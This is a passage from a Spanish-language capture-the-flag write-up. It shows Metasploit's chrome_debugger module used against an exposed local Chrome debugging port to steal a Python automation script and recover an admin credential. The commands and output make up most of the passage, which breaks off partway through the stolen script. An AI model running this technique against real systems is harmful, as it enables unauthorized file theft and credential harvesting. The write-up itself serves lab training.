 admin -> ForlorfroxAdmin

Ahora si cambiamos el RPORT en nuestro `metasploit`...

```console
[msf](Jobs:0 Agents:0) auxiliary(gather/chrome_debugger) >> set RPORT 38313                                                                       
RPORT => 38313                                                                                                                                    
[msf](Jobs:0 Agents:0) auxiliary(gather/chrome_debugger) >> set FILEPATH /home/john/automation/administration.py                                  
FILEPATH => /home/john/automation/administration.py                                                                                               
[msf](Jobs:0 Agents:0) auxiliary(gather/chrome_debugger) >> show options

Module options (auxiliary/gather/chrome_debugger):

   Name      Current Setting                          Required  Description
   ----      ---------------                          --------  -----------
   FILEPATH  /home/john/automation/administration.py  no        File to fetch from remote machine.
   RHOSTS    127.0.0.1                                yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics
                                                                /using-metasploit.html
   RPORT     38313                                    yes       The target port (TCP)
   TIMEOUT   10                                       yes       Time to wait for response
   URL                                                no        Url to fetch from remote machine.


View the full module info with the info, or info -d command.

```

Y lanzamos el exploit vemos que funciona.
```console
[msf](Jobs:0 Agents:0) auxiliary(gather/chrome_debugger) >> run
[*] Running module against 127.0.0.1

[*] Attempting Connection to ws://127.0.0.1:38313/devtools/page/EDBE76992E58EE5D22113DC4554FC3DE
[*] Opened connection
[*] Attempting to load url file:///home/john/automation/administration.py
[*] Received Data
[*] Sending request for data
[*] Received Data
[+] Stored file:///home/john/automation/administration.py at /home/pointedsec/.msf4/loot/20240909232032_default_127.0.0.1_chrome.debugger._972889.txt
[*] Auxiliary module execution completed
```

Este es el script y podemos ver la credencial también. `ForlorfroxAdmin`
```python
<html><head><meta name="color-scheme" content="light dark"></head><body><pre style="word-wrap: break-word; white-space: pre-wrap;">#!/usr/bin/python3
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.chrome.service import Service
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys
from selenium.common.exceptions import UnexpectedAlertPresentException
from selenium.common.exceptions import NoAlertPresentException
from selenium.webdriver.common.alert import Alert
from selenium.webdriver.support import expected_conditions as EC
import time
import threading
import schedule

options = Options()
```